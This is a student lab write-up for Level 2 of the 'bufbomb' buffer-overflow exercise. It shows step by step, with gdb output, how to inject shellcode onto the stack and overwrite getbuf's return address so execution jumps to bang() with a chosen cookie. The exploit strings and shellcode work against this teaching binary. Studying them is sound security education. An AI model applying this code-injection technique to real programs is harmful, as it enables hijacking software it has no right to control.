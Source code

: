 Level 2
=======

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax <=== 1)
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax <=== 2)
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 8049029:       c7 04 24 58 a1 04 08    movl   $0x804a158,(%esp)
 8049030:       e8 ab f8 ff ff          call   80488e0 <printf@plt>
 8049035:       c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 804903c:       e8 93 00 00 00          call   80490d4 <validate>
 8049041:       eb 10                   jmp    8049053 <bang+0x41>
 8049043:       89 44 24 04             mov    %eax,0x4(%esp)
 8049047:       c7 04 24 69 9f 04 08    movl   $0x8049f69,(%esp)
 804904e:       e8 8d f8 ff ff          call   80488e0 <printf@plt>
 8049053:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 804905a:       e8 31 f9 ff ff          call   8048990 <exit@plt>

 ```
<b>write down the address of bang(). Mine is 08049012</b>

Now type:

```
unix> perl -e 'print "AA "x44, "08 04 90 12 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Break bang() returns 0x08049018????????????????

(gdb) cont
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x18900408 in ?? ()

From level 1 calculations get your little endian id. Mine is: 0x 0c c7 8c 2d

More specific goal = 1) replace the value at 0x804c1ec with my cookie as the little endian id. 2) push the return address to bang() onto the stack 3) return

Since we now now the address of the global variable cookie we can create an assembly instruction to mov my cookie value into the location of global_value. 

This can be done by writing the assembly instructions into a .s file, compiling to a binary .o file. Disassemblying the binary file to get the hex that will be used for the exploit string.

First create the file assemblylevel2.s with the following contents:
```
movl $0x0cc78c2d, 0x0804c1ec # move cookie to global_variable
pushl $0x08049012            # push address of bang()
ret                          # return to address bang()
```

then type:
```
unix> gcc -m32 -c assemblylevel2.s
unix> objdump -d assemblylevel2.o > assemblylevel2.d
unix> cat assemblylevel2.d
```

Gives you:
```
assemblylevel2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 ec c1 04 08 2d    movl   $0xcc78c2d,0x804c1ec
   7:   8c c7 0c
   a:   68 12 90 04 08          push   $0x8049012
   f:   c3                      ret
```

Now that I have the hex representation of the assembly to manipulate the bufbomb binary I can put this into the buffer overflow so that it is pushed onto the stack and is executed.

But before I correctly push instructions onto the stack I first have to tell the binary bufbomb where to look for my new instructions. 

Let's first just add the new assembly instructions to see where they are on the stack by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "EE "x4, "c7 05 ec c1 04 08 2d 8c c7 0c 68 12 90 04 08 c3 " ' > hexlevel2_2
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_2 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) i r
```

Gives you:
```
(gdb) i r
eax            0x55683328       1432892200
ecx            0xa      10
edx            0xaec334 11453236
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c15        0x8048c15 <getbuf+17>
eflags         0x212    [ AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

Now let's take a look inside $esp with:
```x/20x $esp```

Gives you 20 words to examine from $esp:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0xeeeeeeee
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```

The address in %ebp is at 0x55683350 which means it is overwritten by 0xdddddddd. The return address of %ebp is also overwritten by 0xeeeeeeee. We can also see our assembly instructions are now on the stack.

In order for the exploit to work, the buffer overflow will have to push the return address of the beginning of the exploit. Looking at the stack shows where the beginning of the exploit starts (0xeeeeeeee). So just replace 0xeeeeeeee with the little endian hex representation of the address where we begin our string exploit at 0x55683358.

0x 55 68 33 58 # is the original order
0x 58 33 68 55 # is the little endian order

Create the new input file by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "58 33 68 55 ", "c7 05 ec c1 04 08 2d 8c c7 0c 68 12 90 04 08 c3 " ' > hexlevel2_3
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_3 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) x/20x $esp
```

Gives you:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0x55683358
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```



